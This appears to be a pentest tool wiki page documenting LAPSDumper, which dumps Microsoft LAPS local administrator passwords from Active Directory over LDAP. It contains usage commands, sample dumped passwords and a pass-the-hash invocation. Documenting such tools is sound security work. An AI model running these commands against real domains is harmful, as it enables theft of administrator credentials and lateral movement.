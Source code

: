 ```yaml
---
title : "LAPSdumper"
# pre : ' '
description : "Dump LAPS Passwords."
date : 2020-12-21T14:32:07+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'Active Directory']
---
```


## LAPSdumper

Dump LAPS (Microsoft Local Administrator Password Solution) Passwords.

### Installation

```plain
git clone https://github.com/n00py/LAPSDumper
```

### Usage

```plain
laps.py [-h] -u USERNAME -p PASSWORD [-l LDAPSERVER] -d DOMAIN
```

### Flags

```plain
optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for LDAP
  -p PASSWORD, --password PASSWORD
                        password for LDAP (or LM:NT hash)
  -l LDAPSERVER, --ldapserver LDAPSERVER
                        LDAP server (or domain)
  -d DOMAIN, --domain DOMAIN
                        Domain
```

### Examples

```plain
$ python3 laps.py -u user -p password -d domain.local

COMPUTER01$:B#g4%aI$K!yZ)q}
COMPUTER02$:n-6pW-n8L!o8Of]
COMPUTER03$:u2Oc9z&{R)fHA2J
COMPUTER04$:Rwb2#4,{@N4Y19v
COMPUTER05$:17aZ,+1L5L((D0F
COMPUTER06$:DNX&@e.8XTQhyPj
COMPUTER07$:U3ZXf0vX!Xm1P89
COMPUTER08$:.6IvTd7-85ytJeF
COMPUTER09$:P2(VSN4%49!%fI8
```

#### Pass-the-Hash specific LDAP server

```plain
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

### URL list

* [GitHub.com - LAPSDumper](https://github.com/n00py/LAPSDumper)
* [n00py.io - Dumping LAPS passwords from Linux](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/)
* [ADSecurity.org - Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)
* [ADSecurity.org - Microsoft LAPS Security & Active Directory LAPS Configuration Recon](https://adsecurity.org/?p=3164)
